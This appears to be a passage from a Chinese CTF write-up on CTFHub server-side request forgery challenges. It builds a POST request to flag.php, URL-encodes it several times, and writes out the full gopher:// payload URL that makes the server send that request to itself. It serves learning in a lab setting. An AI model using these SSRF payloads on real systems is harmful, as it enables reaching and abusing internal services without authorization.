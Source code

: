 ```
一个比较好的思路：目前已知flag.php含有奇怪字符key，index.php能够接受url传参，并利用curl功能访问url传参的内容。那么我们可以利用gopher协议往index.php中传入一个POST请求包。请求包里是flag.php的key。
```

看来应该是让我们输入这个key进入，从而得到flag，但是这里并没有提交的按钮啊，所以我们要自己构造post请求，将这个key发送过去。

构造gopher协议需要的post请求

```
POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=c411440d2354dfc0a33969ec5d9b54ca
```

编码后为

![img](file:///E:\软件\qq\1641428780\Image\C2C\Image2\JU1(]%[`71W~$%3K)DNETFF.png)

在第一次编码后的数据中，将`%0A`全部替换为`%0D%0A`。因为 Gopher协议包含的请求数据包中，可能包含有`=`、`&`等特殊字符，避免与服务器解析传入的参数键值对混淆，所以对数据包进行 URL编码，这样服务端会把`%`后的字节当做普通字节。

第一次后变为

POST%20/flag.php%20HTTP/1.1%0D%0AHost:%20127.0.0.1%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0AContent-Length:%2036%0D%0A%0D%0Akey=c411440d2354dfc0a33969ec5d9b54ca

之后两次直接编码

![img](file:///E:\软件\qq\1641428780\Image\C2C\Image2\}AX47URCQ8ZU$FPOE~I6J1Z.png)

![image-20220610174546570](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610174546570.png)

**发送请求**

> gopher协议格式：URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
>
> ?url=127.0.0.1/index.php/?url=gopher://127.0.0.1:80/_POST包

所以输入

http://challenge-d26dcba417f0feb2.sandbox.ctfhub.com:10800/

?url=127.0.0.1/index.php/?url=gopher://127.0.0.1:80/_POST%252520/flag.php%252520HTTP/1.1%25250D%25250AHost:%252520127.0.0.1%25250D%25250AContent-Type:%252520application/x-www-form-urlencoded%25250D%25250AContent-Length:%25252036%25250D%25250A%25250D%25250Akey=c411440d2354dfc0a33969ec5d9b54ca

得到

![image-20220610174843846](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610174843846.png)



### **上传文件

http://challenge-a3121c44ac14c19f.sandbox.ctfhub.com:10800/?url=127.0.0.1/flag.php
